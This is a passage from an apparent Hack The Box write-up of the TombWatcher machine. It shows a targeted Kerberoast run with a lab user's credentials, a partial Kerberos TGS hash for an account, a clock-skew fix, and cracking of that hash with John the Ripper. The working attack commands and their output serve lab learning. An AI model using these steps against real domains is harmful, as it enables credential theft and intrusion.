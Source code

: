 Now use it:

```bash
┌──(.venv)─(mdn0x㉿mdn0xKali)-[~/…/Machines/TombWatcher/user/targetedKerberoast]
└─$ python3 targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (Alfred)
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$0e83983aba480c3219b96987f20b128e$f66d93f0d55de1da3610267d601fe46a3eed827e3348ff764eca454ff3067429352018f988e71b0bca4636df36765f69664d77acdd4080b34d70ead2abbd2f52bb82054cd69f7f75475ee9beb93b06d036d6b24c8ace08ce04aac9cba49a6b8311fa66eb35ed80222cd23fc328ba489d2d9e83c47f9d0d1982b<SNIP>
[VERBOSE] SPN removed successfully for (Alfred)
```

We can `deactivate` the virtual environment:

```bash
─$ deactivate 
```
### Fixing the “Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)” Issue

If you keep having issues with the error follow this  commands, use `sudo`, or a `root` shell on your system:

```bash
$ timedatectl set-ntp off
$ rdate -n 10.10.11.72
Mon Sep 22 21:58:51 CEST 2025
```

Now run your `Kerberoast` command, you can `timedatectl set-ntp on` later to reset your clock. 
## John The Ripper

We can use [JohnTheRipper](../../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) to crack the hash:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/user]
└─$ john alfredkerbhash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
{{REDACTED_PASSWD}}       (?)     
1g 0:00:00:00 DONE (2025-09-22 22:05) 100.0g/s 307200p/s 307200c/s 307200C/s 123456..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

## Bloodhound II

